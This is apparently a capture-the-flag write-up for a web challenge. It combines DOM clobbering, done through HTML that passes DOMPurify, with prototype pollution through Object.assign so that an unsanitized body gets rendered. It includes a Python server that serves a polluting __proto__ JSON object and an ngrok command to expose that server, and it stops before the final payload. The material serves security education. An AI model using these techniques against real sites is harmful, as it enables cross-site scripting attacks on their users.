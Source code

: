 Upon reviewing it closely, we have 2 vulnerability in this code: 

* HTML Injection. Altough the input is sanitized using `Dompurify` we can still provide html input. This would lead us to **DOM Clobbering**. We can define an anchor tag with id `facecard` and execute the code under this condition:
```javascript
if (window.facecard?.top) {
    let res = await fetch(window.facecard?.top.toString());
    top = await res.json();
}
```

* Prototype Pollution. The `top` variable value is passed to `Object.assign` function. If we can provide an object `__proto__` element, we can modify the created object in our own way.
```
const facecard = Object.assign(new Maker(true), top ?? { report: true });
```

Now one challenge here could be that the since we are going to overwrite the value of `is_safe` attribute, it might not be possible after all since its a private member declared with a `#` in the beginning. But we can also skip this element providing an prototype leading to an `undefined` behavior. 

So, lets fire up a python server and return a `__proto__` object:
```python
import http.server
import json

class handle_request(http.server.BaseHTTPRequestHandler):
    def _set_headers(self):
        self.send_response(200)
        self.send_header("Content-type", "application/json")
        self.send_header("Access-Control-Allow-Origin", "*")
        self.end_headers()

    def do_GET(self):
        response = {
            "__proto__": {  
            "report": True
          }
        }
        self._set_headers()
        self.wfile.write(json.dumps(response).encode())

server = http.server.HTTPServer(('', 9000), handle_request)
server.serve_forever()
```

Proxy your server through ngrok or another tool:
```bash
$ ngrok http 9000
```

Lets craft our final payload now. Before we do, we still have one thing missing. At the end of the code, the condition to render our payload without using `DOMPurify` is: 
```
(window.debug && !facecard.is_safe) ? body : DOMPurify.sanitize(body);
```
